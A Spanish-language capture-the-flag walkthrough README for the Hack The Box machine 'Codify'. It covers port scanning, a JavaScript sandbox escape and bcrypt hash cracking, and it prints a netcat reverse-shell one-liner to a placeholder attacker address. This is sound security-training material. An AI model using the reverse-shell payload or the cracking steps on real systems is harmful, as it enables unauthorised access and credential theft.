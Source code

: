 # Solución para "Codify" - Hack The Box

Este repositorio contiene una detallada guía paso a paso sobre cómo resolví la máquina "Codify" en Hack The Box. Mi objetivo es proporcionar tanto a los entusiastas de la ciberseguridad como a los profesionales, una referencia útil y educativa que puedan seguir para entender y replicar el proceso de resolución. Cualquier aportación, corrección o protip se agradece.

## Contenido

- **Análisis Inicial**: Una descripción completa del análisis inicial que realicé para identificar los vectores de ataque posibles en "Codify".
- **Enumeración**: Detalles sobre las herramientas y técnicas que utilicé para la enumeración de servicios, puertos y vulnerabilidades.
- **Explotación**: Un paso a paso de cómo exploté las vulnerabilidades encontradas para ganar acceso inicial al sistema.
- **Escalada de Privilegios**: Explicación de cómo escalé privilegios para obtener un acceso más profundo al sistema, incluyendo cualquier técnica y herramienta utilizada.
- **Post-Explotación**: Una visión general de las acciones realizadas después de obtener el acceso deseado, como la recolección de banderas y la extracción de datos sensibles.
- **Conclusión y Aprendizaje**: Reflexiones sobre el desafío, qué aprendí durante el proceso y consejos para quienes intenten resolver "Codify".
- **Recursos y Herramientas**: Una lista de todas las herramientas, scripts y recursos externos que me fueron útiles durante la resolución de la máquina.

## Objetivo Educativo

El propósito principal de este repositorio es educativo. Busco compartir mi enfoque y las lecciones aprendidas con la comunidad para que otros puedan aprender de la experiencia y, potencialmente, aplicar estos conocimientos en sus propios desafíos de pentesting y ciberseguridad.

## Análisis Inicial y Enumeración

El primer paso en cualquier desafío de CTF (Capture The Flag) es comprender el terreno. Para ello, arranqué la máquina "Codify" en Hack The Box y utilicé `nmap`, una herramienta esencial en el arsenal de cualquier entusiasta de la seguridad, para realizar un escaneo de los puertos. El escaneo reveló tres puertos abiertos: 22 (SSH), 8080 y 3000.

![NMAP](./img/Nmap.PNG)

El puerto 8080 generalmente aloja aplicaciones web, pero en este caso, intentar acceder resultó en una redirección a un callejón sin salida. Los desarrolladores a menudo utilizan el puerto 3000 para pruebas locales, lo que me hizo pensar que podría contener una pista crucial. Al visitar este puerto en mi navegador, me encontré con una página web que presentaba un entorno sandbox para ejecutar código Javascript

## Explotación del Entorno Sandbox

La página web en el puerto 3000 era un rompecabezas en sí misma, dividida en varias secciones incluyendo 'About Us', 'Editor', 'Limitations', y una página de bienvenida. La sección 'Limitations' era particularmente interesante, ya que detallaba las restricciones impuestas a la ejecución del código, excluyendo explícitamente módulos potencialmente peligrosos como `fs` y `child_process`. Estas restricciones sugieren una protección consciente contra ataques maliciosos, pero también señalan hacia las vulnerabilidades que el creador consideró más críticas.

![NMAP](./img/AboutUs.PNG)

La verdadera mina de oro estaba en 'About Us', donde se mencionaba la librería usada para sandboxing. Una búsqueda en el repositorio de GitHub de la librería reveló varias vulnerabilidades documentadas. Probé varias hasta encontrar una que permitiera ejecutar código fuera del sandbox, utilizando [Gist de GitHub](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac).

## Establecimiento de un Shell Inverso

Ahora que estaba fuera del sandbox, el siguiente paso lógico era establecer un shell inverso. Este proceso, aunque familiar, requirió paciencia y precisión para adaptar el ataque al entorno específico de "Codify". Tras varios intentos y ajustes de mi payload, `netcat` me brindó ese preciado prompt de shell, marcando la primera victoria significativa en esta batalla.

Payload: mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc IP_ATACANTE PUERTO_ATACANTE > /tmp/f; rm /tmp/f


## Escalada de Privilegios: El Desafío Continúa

Con acceso al sistema, el siguiente objetivo era escalar privilegios. Este paso se convirtió en el más desafiante. Navegando por los directorios del sistema, encontré un archivo que parecía contener una contraseña, oculta en el formato de un hash bcrypt. La naturaleza del hash sugería una fortaleza significativa, pero también representaba una pista crítica hacia la obtención de mayores privilegios en la máquina.

![NMAP](./img/Password.PNG)

Utilizando la herramienta John The Ripper y la wordlist rockyou, consigo crackear el hash: 
echo '$2a$12$SOn8Pf6z8fO/***********//P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hashJoshua.txt
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hashJoshua.txt 

Pruebo a iniciar sesión como el usuario Joshua utilizando la contraseña del hash, y consigo acceso al usuario.
En su directorio home se encuentra la user flag, primer objetivo cumplido, pero ahora debo intentar escalar privilegios hacia el usuario root.

Utilizando el comando sudo -l se puede observar que el usuario joshua puede ejecutar mysql-backup.sh como root. Lo que nos da un punto de apoyo para poder escalar privilegios.

